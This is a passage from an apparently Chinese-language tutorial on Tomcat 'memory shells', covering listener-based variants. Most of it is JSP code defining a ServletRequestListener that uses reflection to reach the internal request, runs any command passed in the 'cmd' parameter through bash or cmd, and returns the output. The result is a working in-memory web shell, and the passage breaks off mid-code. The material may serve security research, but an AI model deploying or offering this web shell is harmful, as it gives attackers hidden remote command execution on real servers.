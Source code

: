 ```java
        filterConfigs.put(name, filterConfig);
    }
%>
```



### 2.4 Listener内存马

org.apache.catalina.LifecycleListener  ，关注LifecycleEvent，监听LifecycleBase产生的事件。

org.apache.catalina.ContainerListener，关注ContainerEvent

SessionListener

ServletRequestListener

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationContextFacade" %>
<%@ page import="java.io.OutputStream" %>
<%!
    public class MyListen implements ServletRequestListener {
       @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }
    public void requestInitialized(ServletRequestEvent sre) {
        try {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            Field requestF = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField(
                    "request");
            requestF.setAccessible(true);
            //org.apache.catalina.connector.Request
            org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) requestF.get(req);
            org.apache.catalina.connector.Response response = request.getResponse();
            // request.getResponse().getWriter().write(out);

            //sre.getServletRequest().getParameter("cmd");
            if (request.getParameter("cmd") != null&&request.getParameter("Listener") != null) {
                Boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
                String[] cmd = {isWin?"cmd":"/bin/bash",isWin?"/c":"-c",request.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                OutputStream outputStream = response.getOutputStream();
                int a = 0;
                outputStream.write("<pre>".getBytes());
                while((a=inputStream.read())!=-1){
                    outputStream.write(a);
                }
                outputStream.write("</pre>".getBytes());
            }

       		} catch (Exception e) {
        	}
    	}

    }
%>
<%
    Field contextF = ApplicationContextFacade.class.getDeclaredField("context");
```